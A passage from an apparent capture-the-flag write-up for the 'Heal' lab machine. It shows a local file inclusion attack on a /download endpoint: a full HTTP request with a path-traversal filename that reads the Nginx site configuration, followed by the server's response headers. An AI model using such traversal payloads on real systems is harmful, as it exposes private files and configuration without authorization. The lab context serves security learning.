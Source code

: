 ![](images/2024-12-14_20-37_80_request_lfi.png)

Within the content we found another `user` called `ron`.

| Username |
| -------- |
| ron      |

We started `enumerating` the `filesystem` through the `LFI` and started with the `configuration` for `Nginx`. But all we found was some information about the `Flask application` and the `API` running on port `3000/TCP` and `3001/TCP`.

```c
GET /download?filename=../../../../../etc/nginx/sites-available/heal.htb  HTTP/1.1
Host: api.heal.htb
Accept: */*
Access-Control-Request-Method: GET
Access-Control-Request-Headers: authorization
Origin: http://heal.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Sec-Fetch-Mode: cors
Referer: http://heal.htb/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoyfQ.73dLFyR_K1A7yY9uDP6xu7H1p_c7DlFQEoN1g-LFFMQ


```

```c
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 14 Dec 2024 19:44:12 GMT
Content-Type: application/octet-stream
Content-Length: 785
Connection: keep-alive
access-control-allow-origin: http://heal.htb
access-control-allow-methods: GET, POST, PUT, PATCH, DELETE, OPTIONS, HEAD
access-control-expose-headers: 
access-control-max-age: 7200
x-frame-options: SAMEORIGIN
x-xss-protection: 0
```